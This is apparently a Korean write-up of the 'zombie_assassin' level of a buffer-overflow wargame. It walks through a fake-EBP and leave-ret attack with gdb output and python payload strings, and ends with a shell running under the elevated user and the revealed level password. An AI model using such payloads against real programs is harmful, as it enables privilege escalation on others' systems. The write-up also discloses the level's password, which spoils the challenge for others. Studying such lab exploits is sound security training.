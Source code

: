 따라서 [변조+4]가 system 주소이고, [변조+8+4]이 /bin/sh 주소이면 마지막 ret에 의해 system("/bin/sh")가 실행된다.

필요 주소 : system, /bin/sh, leave 주소

``` bash2
(gdb) print system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>

0x400fbff9 = /bin/sh

0x80484df <main+159>:	leave  
0x80484e0 <main+160>:	ret
```

payload = system 주소 + "A"*4 + /bin/sh 주소 + "A"*28 + FEBP(payload 시작주소 - 4) + leave 주소

`python -c 'print "\xe0\x8a\x05\x40" + "A"*4 + "\xf9\xbf\x0f\x40" + "A"*28 + "BBBB" + "\xdf\x84\x04\x08"'`

을 통해 먼저 gdb로 BBBB에 해당하는 FEBP 값을 알아낼 것이다.

``` gdb
(gdb) x/4wx $ebp-40
0xbffffa80:	0x40058ae0	0x41414141	0x400fbff9	0x41414141
```

FEBP = 0xbffffa7c 이다.

~/zombie_assassi2 `python -c 'print "\xe0\x8a\x05\x40" + "A"*4 + "\xf9\xbf\x0f\x40" + "A"*28 + "\x7c\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`

core를 얻어 진짜 payload의 주소를 구해 FEBP를 수정하면 쉘을 얻을 수 있다.

``` gdb
(gdb) x/4wx 0xbffffa60
0xbffffa60:	0x40058ae0	0x41414141	0x400fbff9	0x41414141
```

payload의 주소는 0xbffffa60 이고 FEBP는 0xbfffa5c가 되어야 한다.
~/zombie_assassi2 `python -c 'print "\xe0\x8a\x05\x40" + "A"*4 + "\xf9\xbf\x0f\x40" + "A"*28 + "\x5c\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`

``` bash2
[assassin@localhost assassin]$ ~/zombie_assassi2 `python -c 'print "\xe0\x8a\x05\x40" + "A"*4 + "\xf9\xbf\x0f\x40" + "A"*28 + "\x5c\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
?@AAAA廈@AAAAAAAAAAAAAAAAAAAAAAAAAAAA\?욀?
bash$ exit  
exit
Segmentation fault (core dumped)
[assassin@localhost assassin]$ ~/zombie_assassin `python -c 'print "\xe0\x8a\x05\x40" + "A"*4 + "\xf9\xbf\x0f\x40" + "A"*28 + "\x5c\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
?@AAAA廈@AAAAAAAAAAAAAAAAAAAAAAAAAAAA\?욀?
bash$ id    
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```
